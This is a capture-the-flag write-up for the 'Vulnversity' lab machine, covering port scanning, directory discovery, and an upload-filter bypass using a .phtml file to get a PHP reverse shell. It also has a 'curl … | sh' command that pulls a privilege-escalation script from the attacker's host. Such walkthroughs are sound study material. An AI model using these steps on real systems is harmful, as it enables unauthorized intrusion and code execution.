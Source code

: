 Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------



Task 1: Reconnaissance

# Nmap scan

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`





# Vulnversity
 _Author: minimcloving_

 _Date: 17 July 2021_

--------------------
--------------------
## nmap scan

###Open Port
* **21** - ftp - vsftpd 3.0.3
* **22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
* **139** - netbios-ssn Samba smbd 3.x - 4.x
* **445** - ' ' smbd 4.3.11-Ubuntu
* **3128** - http-proxy - Squid http proxy 3.5.12
* **3333** - http - Apache httpd 2.4.18

###OS Detection
* OS: Windows 6.1 (Samba 4.3.11-Ubuntu)


## GoBuster

```
http://<ip>:3333
wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
* /images
* /css
* /js
* /fonts
* /internal
* /server-status


## Notes

* /internal brings us to a form upload pages
    * .php is not allowed
    * No extention in original /usr/share/wordlists/wfuzz/general/extensions_common.txt are allowed
    * Fuzzing the upload form, we find that **.phtml** is allowed


## Walkthrough

* nmap scan
    * discovered webserver
* dirbuster to find dirs
    * discovered form upload
* fuzzed w/ burpsuite
    * discovered .phtml file extension allowed
    * uploaded php reverse shell with `.phtml` extension 
* get in with nc
    * Navigating around reverse shell, discover user named `bill`
    * his home directory contained the flag
* Transfer linpeas.sh to our exploited machine to run the script
    * On local machine, run this command:
        * `python -m SimpleHTTPServer 80`
    * On the victim machine, run this command:
        * `curl <local ip address*>/linpeas.sh | sh`
            * * If you are using openvpn, this will be the ip address that openvpn generates, not your actual machines local ip address. This is because the victim machine can only connect to the vpn address. Try it yourself: once you get into the machine, send a ping to both addresses (you may have to ctrl+c to escape the ping and redo your nc -lvnp connection)
* linpeas.sh shows under interesting files -> SUID:
    * /bin/systemctl


# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
# CTF-Writeups

